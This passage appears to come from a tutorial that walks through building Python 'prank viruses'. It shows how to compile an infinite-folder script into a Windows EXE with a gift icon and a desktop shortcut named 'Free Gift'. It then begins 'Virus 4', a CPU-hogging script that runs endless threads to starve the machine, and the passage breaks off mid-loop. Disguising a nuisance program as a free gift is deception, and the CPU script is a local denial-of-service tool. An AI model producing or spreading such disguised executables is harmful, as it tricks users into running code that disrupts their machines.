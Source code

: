 Run it:
```bash
python infinitefolder_prank.py
```
Creating a Clickable Desktop Icon
#### #1 Convert Script to EXE

- Navigate to this link: https://www.iconarchive.com/
- Search your desired icon. For example: gift
- Click All Downloads Format
- Choose Windows: Download ICO
- Rename the file into gift
- Move the gift.ico to your folder

In your terminal, paste this:
```bash
pip install pyinstaller
pyinstaller --onefile --windowed --icon=gift.ico infinitefolder_prank.py 
```
#### #2 Create the Desktop Shortcut
- Right-click desktop → New → Shortcut
- Browse to: C:\Users\Administrator\Downloads\malware\virus2\dist\infinitefolder_prank.exe
- Name it "Free Gift"

# Virus 4
### Step 1: Create new folder (vs code) CPU_Hog
### Create New Text file: CPU_Hog.py

Paste this:
```bash
import threading
import time
import hashlib
import os
import tkinter as tk
import winsound  # Windows only
import sys
from datetime import datetime

# === Setup ===
os.makedirs("logs", exist_ok=True)
LOG_FILE = "logs/dos_log.txt"

# === Resource Path for PyInstaller ===
def resource_path(relative_path):
    try:
        base_path = sys._MEIPASS
    except Exception:
        base_path = os.path.abspath(".")
    return os.path.join(base_path, relative_path)

ALARM_FILE = resource_path("alarm.wav")

# === Logging ===
def log(msg):
    with open(LOG_FILE, "a") as f:
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        f.write(f"[{timestamp}] {msg}\n")

# === CPU Hog ===
def hog_cpu(name):
    log(f"CPU thread started: {name}")
    while True:
```